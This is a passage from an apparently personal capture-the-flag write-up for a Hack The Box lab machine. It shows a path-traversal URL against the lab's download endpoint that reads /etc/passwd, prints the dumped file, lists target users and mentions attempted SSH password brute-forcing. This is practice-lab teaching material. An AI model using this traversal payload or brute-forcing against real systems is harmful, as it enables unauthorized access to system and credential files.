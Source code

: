 Running this gave me this

![image](https://user-images.githubusercontent.com/67879936/224583384-6f030ae2-f1a7-4575-b34b-70601d489282.png)

This means we are probably sitting in the ```/tmp``` directory. Lets test this for possible LFI




<h2>Exploitation</h2>

Testing for possible LFI

Link:http://superpass.htb/download?fn=../../../../../../../etc/passwd

This downloads the ```/etc/passwd``` file to your machine in a ```.csv``` format

![image](https://user-images.githubusercontent.com/67879936/224583544-2ca3598a-db86-4d4a-8b29-d9d6739630f2.png)

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Agile]
└─$ ls
superpass_export.csv
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Agile]
└─$ file superpass_export.csv                                                                                        
superpass_export.csv: ASCII text
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Agile]
└─$ cat superpass_export.csv 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
corum:x:1000:1000:corum:/home/corum:/bin/bash
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:109:112:MySQL Server,,,:/nonexistent:/bin/false
runner:x:1001:1001::/app/app-testing/:/bin/sh
edwards:x:1002:1002::/home/edwards:/bin/bash
dev_admin:x:1003:1003::/home/dev_admin:/bin/bash
_laurel:x:999:999::/var/log/laurel:/bin/false
```
cool, we have 3 possible users on this machine ```dev_admin```, ```corum```, ```edwards```. I tried bruteforcing the ssh passwords for each user but I couldnt't find any. After a while, I went on to view the log files ```/var/log/nginx/access.log```